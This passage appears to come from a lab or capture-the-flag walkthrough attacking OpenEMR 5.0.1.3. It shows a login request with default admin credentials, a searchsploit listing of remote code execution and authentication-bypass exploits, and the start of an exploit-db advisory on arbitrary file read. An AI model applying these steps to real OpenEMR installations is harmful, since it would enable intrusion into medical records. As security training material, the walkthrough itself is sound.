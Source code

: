 ```http
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

new_login_session_management=1&authProvider=Default&authUser=admin&clearPass=password&languageChoice=1 📌
```
`HTTP Response`
```http
HTTP/2 302 Found
Cache-Control: no-store, no-cache, must-revalidate
Content-Type: text/html; charset=utf-8
Date: Fri, 29 Nov 2024 12:19:57 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Location: /interface/main/tabs/main.php
Pragma: no-cache
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: OpenEMR=fvjbf8dnmrg9h8slc9c9elsub0; path=/
Set-Cookie: OpenEMR=1dounguj91eqd3hr661bo9u1t5; path=/
Content-Length: 0
```

`searchsploit 'openemr 5.0.1.3'`:
```
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
OpenEMR 5.0.1.3 - 'manage_site_files' Remote Code Execution (Authenticated)       | php/webapps/49998.py
OpenEMR 5.0.1.3 - 'manage_site_files' Remote Code Execution (Authenticated) (2)   | php/webapps/50122.rb
OpenEMR 5.0.1.3 - (Authenticated) Arbitrary File Actions                          | linux/webapps/45202.txt
OpenEMR 5.0.1.3 - Authentication Bypass                                           | php/webapps/50017.py
OpenEMR 5.0.1.3 - Remote Code Execution (Authenticated)                           | php/webapps/45161.py
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

`cp /usr/share/exploitdb/exploits/linux/webapps/45202.txt ./`

`cat ./45202.txt`:
```
# Exploit Title: OpenEMR 5.0.1.3 - Arbitrary File Actions
# Date: 2018-08-14
# Exploit Author: Joshua Fam
# Twitter : @Insecurity
# Vendor Homepage: https://www.open-emr.org/
# Software Link: https://github.com/openemr/openemr/archive/v5_0_1_3.tar.gz
# Version: < 5.0.1.3
# Tested on: Ubuntu LAMP, OpenEMR Version 5.0.1.3 📌
# CVE : CVE-2018-15142,CVE-2018-15141,CVE-2018-15140 📌

# 1.Arbitrary File Read:
# In OpenEmr a user that has access to the portal can send a malcious
# POST request to read arbitrary files.

# i.Vulnerable Code:
#  if ($_POST['mode'] == 'get') {
```